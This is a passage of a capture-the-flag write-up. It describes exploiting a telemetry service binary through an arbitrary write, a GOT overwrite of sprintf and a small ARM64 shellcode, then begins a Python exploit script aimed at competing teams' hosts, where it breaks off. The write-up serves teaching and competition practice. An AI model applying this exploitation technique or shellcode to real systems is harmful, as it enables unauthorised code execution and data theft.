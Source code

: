 Thankfully, the challenge binary lacks of *PIE* and *Full RELRO* mitigations, so the exploitation plan is:

* Trigger arbitrary write on ``RWX`` page to write a small shellcode
* Trigger arbitrary write on binary ``got.plt`` to overwrite sprintf address with our shellcode address
* Shellcode should write the flag to telemetry and loop indefinitely (to prevent crash)

Notes:

* The ``RWX`` page after the 8 bytes of the flag is all zeros so we know the ``subid`` and we can increase the ``size`` thanks to the vulnerability (+3 on each write) and write a 24 bytes shellcode.
* The ``got.plt`` entry of ``perror`` is not initialized thus it points to the ``.plt`` segment, so we know the value of ``subid`` and we can overwrite ``sprintf`` address with our shellcode address.
* The shellcode is shown below and it writes the flag in cleartext in the telemetry socket:

```asm
eor  x0, x0, x0
movk x0, #0x80, lsl #16  ; set x0 to 0x800000 (RWX page address containing the flag)
movz x1, #0x118c
movk x1, #0x40, lsl #16  ; set x1 to gadget write_to_telemetry(char text[8])
blr  x1                  ; call write_to_telemetry(@FLAG)
loop: b loop             ; infinite loop to prevent telemetry overwrite
```

The exploit and flag submission were automated later to run each tick against all the teams (as a new tick would generate a new flag and restart the service).

### Exploit code

```python
#!/usr/bin/env python3
import datetime
import sys
import socket
import struct
import subprocess
import time
import binascii
import os
import json

def p64(i):
    """p64(i) -> str
    Pack 64 bits integer (little endian)
    """
    return struct.pack('<Q', i)

TEAM_ID = int(sys.argv[1])
HOST = '10.0.{}1.100'.format(TEAM_ID)
PORT = 1337

cli = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
cli.connect((HOST, PORT))

def wait_recv(client):
    client.send(b'SLA_TLM LATEST COMM_TELEM_7\n')
    return client.recv(100)
```
